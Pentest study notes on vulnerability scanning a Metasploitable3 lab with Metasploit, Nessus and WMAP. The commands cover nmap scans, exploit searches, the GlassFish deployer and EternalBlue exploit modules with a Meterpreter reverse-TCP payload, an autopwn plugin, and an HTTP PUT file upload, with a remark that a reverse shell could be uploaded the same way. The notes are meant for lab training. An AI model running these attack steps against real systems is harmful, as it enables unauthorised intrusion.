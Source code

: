 # 1.2.2.3 Vulnerability Scanning

## Vulnerability Scanning With MSF <a href="#vulnerability-scanning-with-msf" id="vulnerability-scanning-with-msf"></a>

MSF **Auxiliary** and **exploit** modules can be utilized to identify inherent vulnerabilities in services, O.S. and web apps.

* Useful in the **Exploitation** phase of the pentest

🔬 [Metasploitable3](https://github.com/rapid7/metasploitable3) lab environment will be used for the vulnerability scanning demonstration.

* **Metasploitable3** is a vulnerable virtual machine developed by Rapid7, intended to be used as a vulnerable target for testing exploits with Metasploit.

> 🔬 You can find my lab installation & configuration with Vagrant at [this page](https://blog.syselement.com/home/home-lab/redteam/metasploitable3), _set up for educational purposes_.

* Kali Linux attacker machine must be configured with **the same local network** of the Metasploitable3 VMs.

Detect active hosts on the local network, from the Kali VM:sudo nmap -sn 192.168.31.0/24Nmap scan report for 192.168.31.139 # Linux targetNmap scan report for 192.168.31.140 # Windows2008 target

* Run Metasploit:

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.168.31.140setg RHOST 192.168.31.140workspace -a VULN\_SCAN\_MS3

* **Service version** is a key piece of information for the vulnerabilities scanning. Use the **`db_nmap`** command inside the MSF

db\_nmap -sS -sV -O 192.168.31.140\[\*] Nmap: 21/tcp open ftp Microsoft ftpd\[\*] Nmap: 22/tcp open ssh OpenSSH 7.1 (protocol 2.0)\[\*] Nmap: 80/tcp open http Microsoft IIS httpd 7.5\[\*] Nmap: 135/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 139/tcp open netbios-ssn Microsoft Windows netbios-ssn\[\*] Nmap: 445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds\[\*] Nmap: 3306/tcp open mysql MySQL 5.5.20-log\[\*] Nmap: 3389/tcp open tcpwrapped\[\*] Nmap: 4848/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 7676/tcp open java-message-service Java Message Service 301\[\*] Nmap: 8009/tcp open ajp13 Apache Jserv (Protocol v1.3)\[\*] Nmap: 8080/tcp open http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8181/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8383/tcp open http Apache httpd\[\*] Nmap: 9200/tcp open wap-wsp?\[\*] Nmap: 49152/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49153/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49154/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49155/tcp open msrpc Microsoft Windows RPC\[...]db\_nmaphostsservices

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-da30e0d4036528a13a9f80ff9d8b01fdd950c4eb%2Fimage-20230413200524969.png?alt=media" alt=""><figcaption></figcaption></figure>

* Manually search for a specific exploit
  * Check if there are any exploits for a particular **version** of a service

search type:exploit name:iissearch type:exploit name:iissearch Sun GlassFish

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-375c51ac9321889fd7f66157154bed2363465c80%2Fimage-20230413192845621.png?alt=media" alt=""><figcaption></figcaption></figure>

* Check if a module will work on the specific version of the service

use exploit/multi/http/glassfish\_deployerinfo​# Description:# This module logs in to a GlassFish Server (Open Source or# Commercial) using various methods (such as authentication bypass,# default credentials, or user-supplied login), and deploys a# malicious war file in order to get remote code execution. It has# been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System# Application Server 9.x. Newer GlassFish versions do not allow remote# access (Secure Admin) by default, but is required for exploitation.set payload windows/meterpreter/reverse\_tcpoptions# check the LHOST, LPORT, APP\_RPORT, RPORT, PAYLOAD options

* Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ccd61dd756b19c9fe6732fd4bc6df233f08f8c9a%2Fimage-20230413194606641.png?alt=media" alt=""><figcaption></figcaption></figure>

* Back in `msfconsole`, check if the server is vulnerable to MS17-010

search eternalblueuse auxiliary/scanner/smb/smb\_ms17\_010runuse exploit/windows/smb/ms17\_010\_eternalblueoptions# always check Payload optionsrun

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e9399a0e6c8efc589338f07390d7ad79f5433cf8%2Fimage-20230413200558380.png?alt=media" alt=""><figcaption></figcaption></figure>

> ​[**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> * _takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services_

* On a Kali terminal

wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db\_autopwn.rbsudo mv db\_autopwn.rb /usr/share/metasploit-framework/plugins/

* On `msfconsole`

load db\_autopwndb\_autopwn -p -t# Enumerates exploits for each of the open portsdb\_autopwn -p -t -PI 445# Limit to only the 445 portdb\_autopwn -p -t -PI 445

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-aebfca43b742e41d758e63a2e3e6b0cdbc355643%2Fimage-20230413202435550.png?alt=media" alt=""><figcaption></figcaption></figure>

* On `msfconsole` use the **`analyze`** command to auto analyze the contents of the MSFdb (hosts & services)

analyzeanalyzevulnsvulns

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ceda763cca80af814cb9304c543bd68cb4bb61f3%2Fimage-20230413202802181.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f2413c550b79a3a1148a63bdb63d63dc5778b675%2Fimage-20230413202708057.png?alt=media" alt=""><figcaption></figcaption></figure>

## VA with [Nessus](https://www.offsec.com/metasploit-unleashed/working-with-nessus/)​ <a href="#va-with-nessus" id="va-with-nessus"></a>

> 🔬 You can find my [**Nessus Essentials** install tutorial here](https://blog.syselement.com/home/operating-systems/linux/tools/nessus).

* A vulnerability scan with Nessus result can be imported into the MSF for analysis and exploitation.
* Nessus Essentials free version allows to scan up to 16 IPs.

Start Nessus Essentials on the Kali VM, login and create a New **Basic Network Scan** and run it.Wait for the scan conclusion and export the results with the **Export/Nessus** button.Nessus Essentials - Metasploitable3

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-986ff2afeccc2978f8dfefa575f9bdf4d236d58d%2Fimage-20230413222104319.png?alt=media" alt=""><figcaption></figcaption></figure>

* Open the `msfconsole` terminal and import the Nessus results
  * Check the information from the scan results with the `hosts`, `services`, `vulns` commands

workspace -a MS3\_NESSUSdb\_import /home/kali/Downloads/MS3\_zph3t5.nessushostsservicesvulnsvulns -p 445search cve:2017 name:smbsearch MS12-020search cve:2019 name:rdpsearch cve:2015 name:ManageEnginesearch PHP CGI Argument Injection

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-22fa84721de13f146690e31e9bde9df8926340e6%2Fimage-20230413222411974.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1562ae2abdb68d12d5245bf395d9dd026ad7295c%2Fimage-20230413222333897.png?alt=media" alt=""><figcaption></figcaption></figure>

#### VA with [WMAP](https://www.offsec.com/metasploit-unleashed/wmap-web-scanner/)​ <a href="#va-with-wmap" id="va-with-wmap"></a>

🗒️ **WMAP** is a web application vulnerability scanner that allows to conduct and automate web server enumeration and scanning from within the Metasploit Framework.

* Available as a fully integrated MSF plugin
* Utilizes the in-built MSF auxiliary modules

> 🔬 The lab is the same one from the HTTP Metasploit Enumeration section above - [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)​

ip -br -c a192.28.60.3# Target IP​service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.28.60.3setg RHOST 192.28.60.3workspace -a WMAP\_SCAN

* Load WMAP extension within `msfconsole`

load wmapload wmap

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c0b6ef2389f185e284ff6f7adfeafebf8c20102a%2Fimage-20230415164951596.png?alt=media" alt=""><figcaption></figcaption></figure>

* Add WMAP site

wmap\_sites -a 192.28.60.3

* Specify the target URL

wmap\_targets -t http://192.28.60.3wmap\_sites -lwmap\_targets -l

* Show only the MSF modules that will be able to be run against target

wmap\_run -t

* Run the **web app vulnerability scan**
  * this will run all enabled modules against the target web server

wmap\_run -e

* _Analyze the results produced by WMAP._

wmap\_run -twmap\_run -e

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c6ae0eaf0eeb364e08f62acd3996d79d8076dd%2Fimage-20230415170207090.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95e786ae8af9e36702f2dca72d5c949173c12d85%2Fimage-20230415165930386.png?alt=media" alt=""><figcaption></figcaption></figure>

* List WMAP found vulnerabilities

wmap\_vulns -l

* Since the allowed methods are `POST`, `OPTIONS`, `GET`, `HEAD`, exploit the vulnerability with the use of `auxiliary/scanner/http/http_put` module to upload a file into the `/data` directory
  * 📌 A reverse shell payload can be uploaded and run on the target.

use auxiliary/scanner/http/http\_putoptionsset PATH /data/set FILEDATA "File uploaded"set FILENAME file.txtrunMetasploit - auxiliary/scanner/http/http\_put

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-23e3f18254581336f1ee00860ef87f174f176772%2Fimage-20230415171358249.png?alt=media" alt=""><figcaption></figcaption></figure>

* Test if the file has been uploaded correctly

curl http://192.28.60.3:80/data/file.txt
